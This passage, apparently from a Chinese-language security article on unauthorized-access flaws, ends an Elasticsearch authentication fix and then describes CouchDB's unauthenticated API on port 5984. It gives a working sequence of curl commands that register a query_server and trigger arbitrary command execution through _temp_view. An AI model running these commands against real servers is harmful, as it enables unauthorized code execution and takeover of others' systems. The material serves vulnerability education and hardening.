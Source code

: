 *   在config/elasticsearch.yml中为9200端口设置认证：



> http.basic.enabled true #开关，开启会接管全部HTTP连接  

> http.basic.user "admin" #账号  

> http.basic.password "admin\_pw" #密码  

> http.basic.ipwhitelist \["localhost", "127.0.0.1"\]



### 十二：CouchDB未授权访问



 **漏洞描述**



CouchDB默认在 5984 端口开放Restful的API接口，用于数据库的管理功能。其HTTP Server默认开启时没有进行验证，而且绑定在0.0.0.0，所有用户均可通过API访问导致未授权访问。任何连接到服务器端口上的人，都可以调用相关API对服务器上的数据进行任意的增删改查，其中通过API修改local.ini配置文件，可进一步导致执行任意系统命令，获取服务器权限！



**漏洞利用**



[![couchdb-7](https://imgconvert.csdnimg.cn/aHR0cDovL3d3dy5zZWNwdWxzZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDkvY291Y2hkYi03LnBuZw)](http://www.secpulse.com/wp-content/uploads/2017/09/couchdb-7.png)



新增query\_server配置，这里执行ifconfig命令



curl -X PUT 'http://x.x.x.x:5984/\_config/query\_servers/cmd' -d '"/sbin/ifconfig >/tmp/6666"'  

新建一个临时表，插入一条记录



[![couchdb-1](https://imgconvert.csdnimg.cn/aHR0cDovL3d3dy5zZWNwdWxzZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDkvY291Y2hkYi0xMS5wbmc)](http://www.secpulse.com/wp-content/uploads/2017/09/couchdb-11.png)



curl -X PUT 'http://x.x.x.x:5984/vultest'



[![couchdb-2](https://imgconvert.csdnimg.cn/aHR0cDovL3d3dy5zZWNwdWxzZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDkvY291Y2hkYi0yLnBuZw)](http://www.secpulse.com/wp-content/uploads/2017/09/couchdb-2.png)  

curl -X PUT 'http://x.x.x.x:5984/vultest/vul' -d '{"\_id":"770895a97726d5ca6d70a22173005c7b"}'  

调用query\_server处理数据



[![couchdb-3](https://imgconvert.csdnimg.cn/aHR0cDovL3d3dy5zZWNwdWxzZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDkvY291Y2hkYi0zLnBuZw)](http://www.secpulse.com/wp-content/uploads/2017/09/couchdb-3.png)



curl -X POST 'http://x.x.x.x:5984/vultest/\_temp\_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'
